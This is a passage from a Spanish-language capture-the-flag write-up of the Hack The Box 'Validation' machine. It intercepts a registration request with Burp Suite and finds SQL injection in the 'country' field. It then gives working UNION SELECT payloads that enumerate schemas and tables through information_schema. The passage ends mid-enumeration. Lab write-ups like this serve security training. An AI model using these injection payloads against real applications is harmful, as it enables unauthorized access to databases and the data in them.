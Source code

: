 Ahrora intecepto la petición con ```BurpSuite``` para ver como se tramita

```null
POST / HTTP/1.1
Host: 10.10.11.116
Content-Length: 28
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.116/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=test&country=Brazil
```

Introduzco una comilla simple en el campo country y en la respuesta aparece un error

```null
</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/account.php</b>
```

Es vulnerable a inyección SQL. Si introduzco ```test' union select database()```, en la respuesta me aparece la base de datos actualmente en uso

<img src="/writeups/assets/img/Validation-htb/3.png" alt="">

Listo todas las bases de datos

```null
Brazil' union select group_concat(schema_name) from information_schema.schemata-- -
```

<img src="/writeups/assets/img/Validation-htb/4.png" alt="">

Para ```registration``` las tablas

```null
Brazil' union select group_concat(table_name) from information_schema.tables where table_schema="registration"-- -
```

Vuelve a llamarse ```registration```
